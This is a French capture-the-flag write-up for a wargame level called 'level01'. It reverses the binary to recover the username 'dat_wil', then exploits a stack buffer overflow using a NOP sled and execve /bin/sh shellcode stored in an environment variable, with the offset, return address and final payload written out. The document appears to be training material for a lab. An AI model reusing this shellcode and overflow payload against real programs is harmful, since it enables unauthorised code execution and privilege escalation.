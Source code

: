 En inspectant le binaire, on voit que la seule protection est RELRO.
Il s'agit d'une protection empechant la reecriture des adresse de la GOT
(Global Offset Tables).

La stack est quant a elle, toujours executable. On devrait pouvoir executer un shellcode dessus (en cas de BoF).

En executant le binaire pour voir comment il se comporte, on voit tout
simplement qu'il demande un username ainsi qu'un password.
Pas de cas de BoF sur le username. On va donc essayer de reverse le binaire
pour en savoir plus : 

	$ gdb level01
	$ disas main

On peut voir une fonction qui s'appelle : verify_user_name
Regardons de plu pres : 

	$ r2
	$ s sym.verify_user_name
	$ VV

On peut voir qu'une string en clair apparait : dat_wil
Sans doute le username.

En essayant, on voit que c'est le bon username, et maintenant le 
mot de passe nous est demande.

En entrant une enorme string, ca segfault et nous pouvons visiblement ecraser EIP : 

	Program received signal SIGSEGV, Segmentation fault.
	0x41414141 in ?? ()

Il nous suffit de stocker un shellcode dans l'env :

	export SHELLCODE=`python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

Il faut maintenant trouver l'offset a partir du quel le binaire segfault.
Apres plusieurs essais on trouve l'offset : 80

Nous avons besoin maintenant de l'adresse de notre variable d'env SHELLCODE.
On peut l'avoir dans gdb :

	$ gdb level01
	$ start
	$ x/1000xg $esp

Puis piocher dans une adresse reliee au nop-sled. Cependant il peut y avoir un decalage memoire entre gdb et notre shell. Donc le plus safe est de 
faire un petit programme C pour recuperer l'adresse de SHELLCODE (voir getenv.c) !NE PAS OUBLIER DE COMPILER AVEC LE FLAG -m32!

Ici, notre adresse est 0xffffd750 donc voici notre payload final :

	python -c "print('dat_wil\n' + 'A'*80 + '\x50\xd7\xff\xff')" > /tmp/payload


	$ cat /tmp/payload - | ./level01

	$ whoami
	=> level02



